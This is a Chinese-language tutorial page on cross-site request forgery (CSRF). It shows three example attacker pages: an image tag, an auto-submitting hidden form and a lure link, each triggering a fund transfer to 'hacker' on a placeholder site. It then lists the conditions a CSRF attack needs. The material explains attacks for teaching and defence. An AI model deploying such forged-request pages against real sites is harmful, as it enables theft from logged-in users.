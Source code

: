 ```yaml
---
title: CSRF攻击
categories:
 - Browser
tags:
 - CSRF
 - 跨站请求伪造
date: 2023-01-03
sidebar: 'auto'
---
```


## 前言
CSRF（Cross-site request forgery/跨站请求伪造）：
1. 引诱用户打开黑客的网站。
2. 在黑客的网站中利用用户的登录状态发起的跨站请求。

## CSRF攻击
跟XSS不同的是，CSRF攻击不需要将恶意代码注入用户的页面，利用的是服务器漏洞和用户的登录状态来实施攻击。当用户打开了黑客的页面后，常见的有三种方式实施CSRF攻击。

### 自动发起Get请求
```html
<!DOCTYPE html>
<html>
   <body>
      <h1>🎣网站</h1>
      <img src="https://mobs.fun/sendBTC?user=hacker&count=1000">
   </body>
</html>
```
这就是钓鱼网站的HTML，将转账接口隐藏在img标签中，浏览器认为这是图片资源，当页面加载，浏览器自动发起img资源请求，如果服务器没有对请求做处理判断，服务器认为这是一个正常的转账请求，财产就被转移了。

### 自动发起POST请求
```html
<!DOCTYPE html>
<html>
   <body>
      <h1>🎣网站</h1>
      <form id="hacker-form" action="https://mobs.fun/sendBTC" method="POST">
        <input type="hidden" name="user" value="hacker" />
        <input type="hidden" name="number" value="1000" />
      </form>
      <script>document.getElementById("hacker-form").submit();</script>
   </body>
</html>
```
有些服务器接口使用的POST方法的，所以黑客需要在钓鱼网站上伪造POST请求，当用户打开黑客的站点时自动提交POST请求。在钓鱼页面中构建了一个隐藏的表单，表单的内容就是转账接口，当用户打开站点后，该表单会被自动执行提交，这就自动实现跨站点POST数据提交。

### 引诱用户点击链接
诱惑用户点击黑客站点上的链接，这种方式通常出现在论坛或者恶意邮件上。当用户登录了自己网站，点击该链接就会发送该伪造请求。
```html
<div>
  <img src="https://mobs.fun/you-know-what"/>
  <a href="https://mobs.fun/sendBTC?user=hacker&count=1000" traget="_blank">点击在线观看</a>
</div>
```

## 阻止CSRF攻击
发起CSRF攻击的三个必要条件：
1. 目标站点存在CSRF漏洞
2. 用户登录过目标站点，且在浏览器上保持对目标站点的登录状态
3. 用户打开第三方站点（有可能是黑客站点、论坛）
